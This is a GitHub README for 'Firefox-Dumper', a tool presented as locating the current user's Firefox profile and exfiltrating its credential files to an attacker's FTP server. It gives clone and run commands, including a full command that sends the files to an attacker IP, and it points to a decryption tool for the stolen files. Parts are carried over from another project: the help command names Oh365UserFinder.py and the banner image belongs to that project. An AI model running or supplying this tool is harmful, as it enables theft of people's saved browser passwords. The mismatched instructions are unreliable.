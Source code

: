 # Firefox-Dumper

[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/M4M03Q2JN)

<p align="center">
  <img src="https://github.com/dievus/Oh365UserFinder/blob/main/images/Oh365UserFinder1.png" />
</p>

Firefox Dumper identifies the current user's Firefox profile directory and exfiltrates the credential files to the attacker's FTP server.  

## Usage
Installing Firefox Dumper

```git clone https://github.com/dievus/Firefox-Dumper.git```

Change directories to Firefox-Dumper and that's it.

```python3 Oh365UserFinder.py -h```

This will output the help menu, which contains the following flags:

```-h, --help - Lists the help options```

```-i, --ip - Mandatory - declares the attacker's FTP server IP. Firefox Dumper uses port 21 by default and is hardcoded.```


Examples of full commands include:

```python3 firefoxdumper.py -i 192.168.1.1```


### Notes
A tool called "Firefox Decrypt" can be found here - https://github.com/unode/firefox_decrypt.  This tool is required in order to decrypt the files.  



